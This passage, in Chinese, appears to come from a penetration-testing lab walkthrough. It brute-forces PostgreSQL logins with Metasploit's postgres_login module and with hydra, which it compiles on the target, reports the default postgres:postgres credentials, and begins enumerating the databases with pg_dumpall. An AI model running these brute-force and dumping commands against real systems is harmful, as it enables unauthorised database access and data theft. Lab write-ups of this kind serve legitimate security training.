 使用msf的postgres\_login模块爆破用户名密码，

```plain
msfconsole -q -x 'use scanner/postgres/postgres_login;set rhost 127.0.0.1;set rport 5557;run'
```

此外也可以利用靶机上存在的hydra进行爆破

```plain
//kali
scp /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt webmin@192.168.50.10:~
scp /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt webmin@192.168.50.10:~

//靶机，靶机的hydra需要编译
tar -xzf post.tar.gz
./configure
make
make install (会提示权限不足，可忽略)

./post/hydra -L postgres_default_user.txt -P postgres_default_pass.txt postgres://127.0.0.1
```

[![](assets/1704158282-b75299ddf19097c2ab0431d9093a14cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010458-3b5368d4-a5a3-1.png)

> \[+\] 127.0.0.1:5557 - Login Successful: postgres:postgres@template1

## PostgreSQL 信息枚举

直接在靶机切换postgres用户提示授权失败。既然端口已经做了映射，可以在kali利用pg\_dumpall用来提取我们可以访问的所有数据库
